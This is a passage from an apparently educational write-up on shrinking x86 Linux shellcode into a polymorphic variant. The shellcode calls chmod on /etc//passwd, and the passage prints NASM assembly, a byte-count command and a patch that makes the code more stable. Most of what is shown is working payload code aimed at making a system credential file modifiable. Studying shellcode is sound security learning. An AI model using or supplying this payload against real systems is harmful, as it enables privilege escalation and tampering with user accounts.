 ```nasm
    ; reuse the value of "/etc" from before
    push esi
    
    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//passwd"
    push esp
    pop ebx

    ; call chmod()
    int 0x80

    ; invoke the exit syscall
    ; exit code is set to ESP, but it's not important
    mov eax, edx
    inc eax
    int 0x80
```

The original shellcode uses `57` bytes, while this one uses `52` bytes:

```bash
objcopy -O binary -j .text ./shellcode.o /dev/stdout | wc -c

# 52
```

Although, I managed to make it smaller, it requires one **condition**:

- the call to `chmod` MUST be successful, hence store `0` into `EAX`

If the register `EAX` isn't set to 0, then the next call will throw a `SIGSEGV` signal, so the program will crash.

#### Focus on stability

For this reason, I also wrote a slightly different version that handles this case, not the SIGSEGV error but clearing the EAX register:

```patch
--- polymorphic_tiny.nasm       2022-01-12 07:54:18.947129214 +0000
+++ polymorphic_stable.nasm     2022-01-12 07:53:52.437239057 +0000
@@ -37,7 +37,9 @@
     ; call chmod()
     int 0x80
 
+    ; set EAX to 0 and push it to the stack;
     ; like before, it acts as the string terminator
+    mov eax, edx
     push eax
 
     ; push "/etc//passwd" to the stack
@@ -60,5 +62,6 @@
 
     ; invoke the exit syscall
     ; exit code is set to ESP, but it's not important
+    mov eax, edx
     inc eax
     int 0x80
```
